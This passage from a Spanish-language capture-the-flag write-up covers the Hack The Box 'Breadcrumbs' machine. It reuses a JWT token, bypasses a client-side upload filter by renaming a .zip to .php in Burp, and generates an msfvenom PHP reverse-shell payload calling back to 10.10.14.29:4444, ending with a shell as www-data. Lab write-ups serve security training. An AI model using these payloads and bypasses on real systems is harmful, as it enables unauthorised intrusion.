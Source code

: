 

Nos dirigimos hacia : `http://breadcrumbs.htb/portal/php/files.php` 

![files](/assets/img/Linux/Breadcrumbs/files.png)

Si intentamos subir algo :

![error](/assets/img/Linux/Breadcrumbs/error.png)

:cry: No funciona, sin embargo mas arriba ya tenemos nuestro Token :)  : `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.4mJgu G8tRd2z_feWJpmr_J3AdMeDPvW7GCK7cW7o0AI`



![sucess](/assets/img/Linux/Breadcrumbs/sucess.png)

Antes de continuar, nos tenemos que plantear el escenario, tenemos un File Upload que solo acepta **.zip** , no sabemos que tipo de filtro hay dentras(del lado del cliente o servidor). En el BruteForce Directory, encontramos una ruta interesante **/js** entre lo cual destaca : 

![upload_vul](/assets/img/Linux/Breadcrumbs/upload_vul.png)

Tenemos un filtro del lado del cliente, bastante sencillo de bypassear, para esto usamos Burp, msfvenom, subimos el archivo como .zip y con burp lo editamos a **.php** <----Ojo con eso.

```bash
 msfvenom -p php/reverse_php LHOST=10.10.14.29 LPORT=4444 -f raw > gali.zip
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3022 bytes

#Dejamos netcat escuchando en el puerto 4444
```



![bypass](/assets/img/Linux/Breadcrumbs/bypass.png)

![upload_02](/assets/img/Linux/Breadcrumbs/upload_02.png)

![success](/assets/img/Linux/Breadcrumbs/success.png)

Success! 

<img src="/assets/img/Linux/Breadcrumbs/work.png" alt="work" style="zoom:67%;" />

Ahora vamos a */uploads* :

`http://breadcrumbs.htb/portal/uploads/` 

En mi caso seria : http://breadcrumbs.htb/portal/uploads/gali.php

![www](/assets/img/Linux/Breadcrumbs/www.png)

Somos www-data :D

